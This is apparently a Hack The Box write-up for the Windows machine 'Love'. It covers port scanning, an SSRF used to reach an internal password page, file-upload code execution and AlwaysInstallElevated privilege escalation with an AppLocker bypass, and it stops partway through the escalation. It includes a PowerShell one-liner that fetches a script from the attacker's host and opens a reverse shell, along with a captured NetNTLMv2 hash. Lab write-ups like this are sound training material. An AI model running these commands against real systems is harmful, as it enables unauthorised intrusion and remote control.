






Box: Windows

Level: Easy
### Index
1. Box Info 
2. Initial Nmap Enumeration
3. [Web Enumeration - Port 80](#Web%20Enumeration%20-%20Port%2080)
4. [RCE Using File Upload](#RCE%20Using%20File%20Upload)
5. [Obtaining Stable Shell](#Obtaining%20Stable%20Shell)
6. [Privilege Escalation - Manually without winPEAS or BloodHound](#Privilege%20Escalation%20-%20Manually%20without%20winPEAS%20or%20BloodHound)
7. [Getting Environment Variable using PowerShell](Love%20HTB.md#Getting%20Environment%20Variable%20using%20PowerShell)
8. [Enumerating AppLocker Configuration Using PowerShell](#Enumerating%20AppLocker%20Configuration%20Using%20PowerShell)
9. [Abusing AlwaysInstallElevated Privilege - AppLocker Bypass](#Abusing%20AlwaysInstallElevated%20Privilege%20-%20AppLocker%20Bypass)
	8.1  AppLocker - Putting Data into Alternate Data Stream

### Box Info
```
Love is an easy windows machine where it features a voting system application that suffers from an authenticated remote code execution vulnerability. Our port scan reveals a service running on port 5000 where browsing the page we discover that we are not allowed to access the resource. Furthermore a file scanner application is running on the same server which is though effected by a SSRF vulnerability where it&amp;amp;#039;s exploitation gives access to an internal password manager. We can then gather credentials for the voting system and by executing the remote code execution attack as phoebe user we get the initial foothold on system. Basic windows enumeration reveals that the machine suffers from an elevated misconfiguration. Bypassing the applocker restriction we manage to install a malicious msi file that finally results in a reverse shell as the system account.
```

### Initial Enumeration
```
# nmap -p- --min-rate=2000 -Pn -T4 -sC -sV 10.10.10.239
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, LDAPSearchReq: 
|_    Host '10.10.14.4' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-08-28T04:08:15+00:00; +21m35s from scanner time.
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=8/27%Time=66CE9CED%P=x86_64-pc-linux-gnu%r
SF:(HTTPOptions,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not
SF:\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Fou
SF:rOhFourRequest,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20n
SF:ot\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(L
SF:DAPSearchReq,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not
SF:\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: 21m34s

```

Couple of things from the above nmap scan
1. `Port 443` has `commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in`
2. We can add staging.love.htb into our host file and will try to hit the port 443.

Some more nmap enumeration
```
$ nmap -p80 --script=http-server-header,http-security-headers,http-vhosts,http-methods,http-php-version,http-ls,http-apache-server-status,http-title -sC -sV -Pn -T3 -A 10.10.10.239
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-vhosts: 
|_128 names had status 200
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-security-headers: 
|   Cache_Control: 
|     Header: Cache-Control: no-store, no-cache, must-revalidate
|   Pragma: 
|     Header: Pragma: no-cache
|   Expires: 
|_    Header: Expires: Thu, 19 Nov 1981 08:52:00 GMT
|_http-php-version: Version from header x-powered-by: PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
```

```
# nmap -p80 --script=http-server-header,http-security-headers,http-vhosts,http-methods,http-php-version,http-ls,http-apache-server-status,http-title -sC -sV -Pn -T3 -A 10.10.10.239
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-vhosts: 
|_128 names had status 200
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-security-headers: 
|   Cache_Control: 
|     Header: Cache-Control: no-store, no-cache, must-revalidate
|   Pragma: 
|     Header: Pragma: no-cache
|   Expires: 
|_    Header: Expires: Thu, 19 Nov 1981 08:52:00 GMT
|_http-php-version: Version from header x-powered-by: PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
```

```
nmap -p443 --script=http-server-header,http-security-headers,http-vhosts,http-methods,http-php-version,http-ls,http-apache-server-status,http-title -sC -sV -Pn -T3 -A 10.10.10.239

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
| http-vhosts: 
|_128 names had status 403
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-security-headers: 
|   Strict_Transport_Security: 
|_    HSTS not configured in HTTPS Server
```

```
# nmap -p5000 --script=http-server-header,http-security-headers,http-vhosts,http-methods,http-php-version,http-ls,http-apache-server-status,http-title -sC -sV -Pn -T3 -A 10.10.10.239

PORT     STATE SERVICE VERSION
5000/tcp open  http    Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| http-vhosts: 
|_128 names had status 403
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
```
### Web Enumeration - Port 80

Using GoBuster trying to identify the list of directories following to that will try to identify files as well. 

```
# gobuster dir -u http://10.10.10.239/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 338] [--> http://10.10.10.239/images/]
/Images               (Status: 301) [Size: 338] [--> http://10.10.10.239/Images/]
/admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/admin/]
/plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/plugins/]
/includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/includes/]
/examples             (Status: 503) [Size: 402]
/dist                 (Status: 301) [Size: 336] [--> http://10.10.10.239/dist/]
/licenses             (Status: 403) [Size: 421]
/IMAGES               (Status: 301) [Size: 338] [--> http://10.10.10.239/IMAGES/]
/%20                  (Status: 403) [Size: 302]
/Admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/Admin/]

```


Some of the things I have pull down from Burp
```
Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
X-Powered-By: PHP/7.3.27
```



The same way `/plugins` directory was also accessible.

Here's how `staging.love.htb` look like. I will post my failed attempts as well


**THIS IS NOT A RABITHOLE** But I ended up spending 7 hours trying to figure out how can I take advantage here. Let me show you some of my failed attempts. I tried more than 100 different things with the `file://` and `http://` protocol here and nothing seems worked. 


Running the local python server than trying to fetch a file and then trying to execute the file was not working. **BUT BUT BUT** Than I read the machine Info **again and again** and realized one thing that is `Our port scan reveals a service running on port 5000 where browsing the page we discover that we are not allowed to access the resource`. Hmm.... Let me see if I can use the SSRF vulnerability to see what's on `port 5000`. and **BOOM**



**THIS TOOK ME 7 hours because I tried lot of other things.** I googled `Voting System using PHP` Exploit-DB because that is something I notice when I was trying to enumerate port 80 with `http-title` script. I found few exploits but those were not application in this scenario. SQL Injection on the love.htb is a big time rabbit hole. I spend a time there as well. Anyways, We got our credentials. This credentials would work on `love.htb/admin/` page.



### RCE Using File Upload

All right, We now going to upload file to see if it appears at `http://love.htb/images/`.


It does. Let's grab a shell
### Obtaining Stable Shell

In this box, There were few things that I would like to highlight. 
1.  Upon uploading `winPEAS.ps1`, `winPEASany.exe`, `winPEAS.bat`, I was not able to execute it from `C:\ProgramData` or `C:\temp`
2. Using the [Ultimate AppLocker Bypass GitHub](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md) Repo, i found the list of directories that might allow me to execute `exe` file. So I pick up the following folder.
```
PS C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System> .\winPEASx64.exe
```

4. Now you can see that I have the stable shell. But getting stable shell was also one of the task for me so I ran the [Nishang PowerShell Collection](https://github.com/samratashok/nishang/tree/master) and run the following command in the User Shell when `nc -lvnp 5555` and `python -m http.server` was also running in a separate tab.
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 5555
```

And I got the Stable Shell.
### Privilege Escalation - Manually without winPEAS or BloodHound
#### Getting Environment Variable using PowerShell
```

PS C:\temp> $Env:PATH
C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem;C:\WINDOWS\System32\WindowsPowerShell\v1.0\;C:\WINDOWS\System32\OpenSSH\;C:\Users\Phoebe\AppData\Local\Microsoft\WindowsApps;
PS C:\temp> Get-ChildItem env:

Name                           Value                                                                                   
----                           -----                                                                                   
ALLUSERSPROFILE                C:\ProgramData                                                                          
AP_PARENT_PID                  7024                                                                                    
APPDATA                        C:\Users\Phoebe\AppData\Roaming                                                         
CommonProgramFiles             C:\Program Files\Common Files                                                           
CommonProgramFiles(x86)        C:\Program Files (x86)\Common Files                                                     
CommonProgramW6432             C:\Program Files\Common Files                                                           
COMPUTERNAME                   LOVE                                                                                    
ComSpec                        C:\WINDOWS\system32\cmd.exe                                                             
DriverData                     C:\Windows\System32\Drivers\DriverData                                                  
HOMEDRIVE                      C:                                                                                      
HOMEPATH                       \Users\Phoebe                                                                           
LOCALAPPDATA                   C:\Users\Phoebe\AppData\Local                                                           
LOGONSERVER                    \\LOVE                                                                                  
NUMBER_OF_PROCESSORS           2                                                                                       
OneDrive                       C:\Users\Phoebe\OneDrive                                                                
OS                             Windows_NT                                                                              
Path                           C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem;C:\WINDOWS\System32\WindowsPo...
PATHEXT                        .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL                              
PROCESSOR_ARCHITECTURE         AMD64                                                                                   
PROCESSOR_IDENTIFIER           AMD64 Family 25 Model 1 Stepping 1, AuthenticAMD                                        
PROCESSOR_LEVEL                25                                                                                      
PROCESSOR_REVISION             0101                                                                                    
ProgramData                    C:\ProgramData                                                                          
ProgramFiles                   C:\Program Files                                                                        
ProgramFiles(x86)              C:\Program Files (x86)                                                                  
ProgramW6432                   C:\Program Files                                                                        
PROMPT                         $P$G                                                                                    
PSModulePath                   C:\Users\Phoebe\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShel...
PUBLIC                         C:\Users\Public                                                                         
SESSIONNAME                    Console                                                                                 
SystemDrive                    C:                                                                                      
SystemRoot                     C:\WINDOWS                                                                              
TEMP                           C:\Users\Phoebe\AppData\Local\Temp                                                      
TMP                            C:\Users\Phoebe\AppData\Local\Temp                                                      
USERDOMAIN                     LOVE                                                                                    
USERDOMAIN_ROAMINGPROFILE      LOVE                                                                                    
USERNAME                       Phoebe                                                                                  
USERPROFILE                    C:\Users\Phoebe                                                                         
windir                         C:\WINDOWS                                                                              
```

#### Enumerating AppLocker Configuration Using PowerShell

```
PS C:\temp> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections


PublisherConditions : {*\*\*,0.0.0.0-*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : b7af7102-efde-4369-8a89-7a6a392d1473
Name                : (Default Rule) All digitally signed Windows Installer files
Description         : Allows members of the Everyone group to run digitally signed Windows Installer files.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\Installer\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 5b290184-345a-4453-b184-45305f6d9a54
Name                : (Default Rule) All Windows Installer files in %systemdrive%\Windows\Installer
Description         : Allows members of the Everyone group to run all Windows Installer files located in 
                      %systemdrive%\Windows\Installer.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*.*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 64ad46ff-0d71-4fa0-a30b-3f3d30c5433d
Name                : (Default Rule) All Windows Installer files
Description         : Allows members of the local Administrators group to run all Windows Installer files.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow

PathConditions      : {%OSDRIVE%\*}
PathExceptions      : {%OSDRIVE%\Administration\*}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 7eadbece-51d4-4c8b-9ab5-39faed1bd93e
Name                : %OSDRIVE%\*
Description         : 
UserOrGroupSid      : S-1-1-0
Action              : Deny

PathConditions      : {%OSDRIVE%\Administration\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : e6d62a73-11da-4492-8a56-f620ba7e45d9
Name                : %OSDRIVE%\Administration\*
Description         : 
UserOrGroupSid      : S-1-5-21-2955427858-187959437-2037071653-1002
Action              : Allow

```

Here we can see that AppLocker is indeed running and that the default rules have been set on this host for both executables and scripts. The default rules that are set permit the execution of executables and scripts only from within C:\\Windows\\* . This means that we can only execute scripts from either of those folders or any subfolders inside (from the wildcard). The only issue is that these folders generally have tight permissions by default.

Following to this, I ran the `winPEASx64.exe` on this box from the following location. Some of the notable findings and failed attempts to obtain the SYSTEM flag is posted below

```
PS C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System> .\winPEASx64.exe

############## Windows Defender configuration
  Local Settings

  Path Exclusions:
    C:\Administration
    C:\xampp\htdocs\omrs

  PolicyManagerPathExclusions:
    C:\Administration
    C:\xampp\htdocs\omrs

############## PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.19041.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 51B

################ Checking AlwaysInstallElevated
#  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

################ Checking AppLocker effective policy
   AppLockerPolicy version: 1
   listing rules:

   File Path Rule
##################################################################################################
   Rule Type:               Msi
   Enforcement Mode:        Enabled
   Name:                    (Default Rule) All Windows Installer files in %systemdrive%\Windows\Installer
   Translated Name:         (default rule) all windows installer files in c:\windows\installer
   Description:             Allows members of the Everyone group to run all Windows Installer files located in %systemdrive%\Windows\Installer.
   Action:                  Allow
   User Or Group Sid:       S-1-1-0

   Conditions
   Path:                    %WINDIR%\Installer\*
    No potential bypass found while recursively checking files/subfolders for write or equivalent permissions with depth: 3
    Check permissions manually.   

   
   
   File Path Rule
 ###################################################################################################
   Rule Type:               Msi
   Enforcement Mode:        Enabled
   Name:                    (Default Rule) All Windows Installer files
   Translated Name:         (default rule) all windows installer files
   Description:             Allows members of the local Administrators group to run all Windows Installer files.
   Action:                  Allow
   User Or Group Sid:       S-1-5-32-544
  
   Conditions
   Path:                    *.*


   File Path Rule
  ##################################################################################################
   Rule Type:               Msi
   Enforcement Mode:        Enabled
   Name:                    %OSDRIVE%\*
   Translated Name:         c:
   Description:             
   Action:                  Deny
   User Or Group Sid:       S-1-1-0
   
   Conditions
   Path:                    %OSDRIVE%\*
	 Directory "c:" Permissions: Everyone [WriteData/CreateFiles]


   File Path Rule
##################################################################################################
   Rule Type:               Msi
   Enforcement Mode:        Enabled
   Name:                    %OSDRIVE%\Administration\*
   Translated Name:         c:\administration
   Description:             
   Action:                  Allow
   User Or Group Sid:       S-1-5-21-2955427858-187959437-2037071653-1002

	Conditions
	   Path:                    %OSDRIVE%\Administration\*
    Directory "c:\administration" Permissions: Phoebe [AllAccess],Authenticated Users [WriteData/CreateFiles]


################## httpd(1148)[C:\xampp\apache\bin\httpd.exe] -- POwn: Phoebe
    Permissions: Authenticated Users [WriteData/CreateFiles]
    Possible DLL Hijacking folder: C:\xampp\apache\bin (Authenticated Users [WriteData/CreateFiles])
    Command Line: C:\xampp\apache\bin\httpd.exe -d C:/xampp/apache


###################  mysqld(7032)[c:\xampp\mysql\bin\mysqld.exe] -- POwn: Phoebe
    Permissions: Authenticated Users [WriteData/CreateFiles]
    Possible DLL Hijacking folder: c:\xampp\mysql\bin (Authenticated Users [WriteData/CreateFiles])
    Command Line: "c:\xampp\mysql\bin\mysqld.exe" --defaults-file="c:\xampp\mysql\bin\my.ini" --standalone

################### Modifiable Services
? Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)
    wcncsvc: GenericExecute (Start/Stop)
    BcastDVRUserService_3e226: GenericExecute (Start/Stop)
    ConsentUxUserSvc_3e226: GenericExecute (Start/Stop)
    CredentialEnrollmentManagerUserSvc_3e226: GenericExecute (Start/Stop)
    DeviceAssociationBrokerSvc_3e226: GenericExecute (Start/Stop)
    DevicePickerUserSvc_3e226: GenericExecute (Start/Stop)
    DevicesFlowUserSvc_3e226: GenericExecute (Start/Stop)
    PimIndexMaintenanceSvc_3e226: GenericExecute (Start/Stop)
    PrintWorkflowUserSvc_3e226: GenericExecute (Start/Stop)
    UdkUserSvc_3e226: GenericExecute (Start/Stop)
    UnistoreSvc_3e226: GenericExecute (Start/Stop)
    UserDataSvc_3e226: GenericExecute (Start/Stop)
    WpnUserService_3e226: GenericExecute (Start/Stop)


############### Enumerating Security Packages Credentials
  Version: NetNTLMv2
  Hash:    Phoebe::LOVE:1122334455667788:5ce66a27bc5e43e236f071866eb68681:010100000000000032904766dff9da01c373f122349bda4b00000000080030003000000000000000000000000020000065a8a42bb5551096b70e7700219c5f07bf2f41e0c47c8b2b5749fba13efd03540a00100000000000000000000000000000000000090000000000000000000000  


############ Looking for possible password files in users homes
?  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml
```

All Right we have lot of options to try on. Let's start by exploring the PowerShell History file.
```
C:\temp>type C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
curl 10.10.14.9:8000/dControl.zip -o dControl.zip
```

Looks like getting a zip file from `10.10.14.9`. 

### Abusing AlwaysInstallElevated Privilege - AppLocker Bypass

Yeah we can see in the winPEAS that AlwaysInstallElevated is enabled but let's verify it using `req query`
```
C:\temp>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\temp>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
